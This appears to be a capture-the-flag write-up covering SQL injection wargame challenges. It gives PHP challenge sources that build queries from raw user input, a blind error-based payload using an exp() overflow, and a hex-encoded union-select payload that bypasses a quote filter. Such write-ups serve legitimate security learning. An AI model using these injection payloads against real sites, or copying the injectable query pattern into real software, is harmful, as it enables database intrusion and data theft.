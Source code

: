payload: exp(800\*if(id="admin" and ord(substr({pw},{i},1))={j} , 1, 0))

if false 800 \* 0 = 0 => rubiya805 , if true 800 \* 1 = 800 => DOUBLE value is out of range => rubiya805 not in r.text

## Green\_Dragon(bypass filter)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>

```

payload:  id=\\\&pw= union select char(92),0x20756e696f6e2073656c656374203078363136343664363936652d2d202d-- -

char(92) = \ , hex = union select 0x61646d696e-- -

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

## Red\_Dragon(numeric)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET['id']}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = "select no from prob_red_dragon where id='admin'"; // if you think challenge got wrong, look column name again.
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['no'] === $_GET['no']) solve("red_dragon");
  highlight_file(__FILE__);
```